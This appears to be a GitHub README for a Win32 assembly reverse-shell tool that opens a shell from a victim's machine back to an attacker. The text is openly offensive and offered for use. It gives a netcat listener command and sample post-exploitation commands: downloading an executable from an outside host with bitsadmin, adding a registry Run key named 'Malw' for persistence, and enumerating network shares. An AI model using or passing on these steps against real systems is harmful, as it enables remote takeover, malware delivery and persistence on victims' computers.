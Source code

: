 # Reverse Shell

This tool was written in Assembly x86 - Win32 API

When the program is executed in the victim machine, it will open a reverse shell back at the address of attacker (you can customize the attacker and the port address).

Simple usage:

The attacker must be start a server in my case I used netcat from a local Linux machine:
- nc -l 4444

Then when the program is started in the victmin machine, the attacker could perform command like:
- cmd /C net use
- cmd /C bitsadmin /transfer downloadjob /download /priority normal http://example.com/file.exe C:\Users\user\Documents\file.exe
- cmd /C reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "Malw" /t REG_SZ /F /D "C:\Users\user\Documents\file.exe"

And so on...







